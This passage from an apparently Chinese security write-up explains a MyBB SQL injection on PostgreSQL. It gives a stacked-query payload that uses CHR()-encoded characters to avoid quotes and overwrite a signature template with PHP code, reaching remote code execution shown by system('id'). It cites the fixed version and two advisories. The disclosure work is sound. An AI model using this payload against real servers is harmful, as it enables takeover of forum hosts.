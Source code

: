现在我们回到MyBB中的SQL注入，它使用PostgreSQL进行多查询。在SQL注入期间使用单引号或双引号将导致它们的转义:

  

  * 

    
    
    ' AND '.$db->escape_string($column)."

  

将需要的构造重写为member_profile_signature模板而不使用单引号的SQL查询:

  

  * 

    
    
    update mybb_templates set template = (select concat((select template from mybb_templates mt  where mt.tid = 240),(select CHR(34)||CHR(59)||CHR(36)||CHR(123)||CHR(115)||CHR(121)||CHR(115)||CHR(116)||CHR(101)||CHR(109)||CHR(40)||CHR(39)||CHR(105)||CHR(100)||CHR(39)||CHR(41)||CHR(125)))) where tid = 240;

  

然后，最终的SQL注入将具有导致在系统中执行任意代码的表单。

  

![]()（在多查询模式下执行SQL注入，第二次查询覆盖用户签名模板，注入恶意代码）

结果是执行system('id')命令。

  

![]()（服务器上的RCE通过SQL注入绕过模板沙盒函数）

  

漏洞修复可以在MyBB官方网站上找到。

  

 **  
**

 **0x03参考链接**

 **  
**

https://mybb.com/versions/1.8.32/

  

https://github.com/mybb/mybb/security/advisories/GHSA-ggp5-454p-867v

  

https://github.com/mybb/mybb/security/advisories/GHSA-6vpw-m83q-27px

  

  

  

  

推荐阅读：
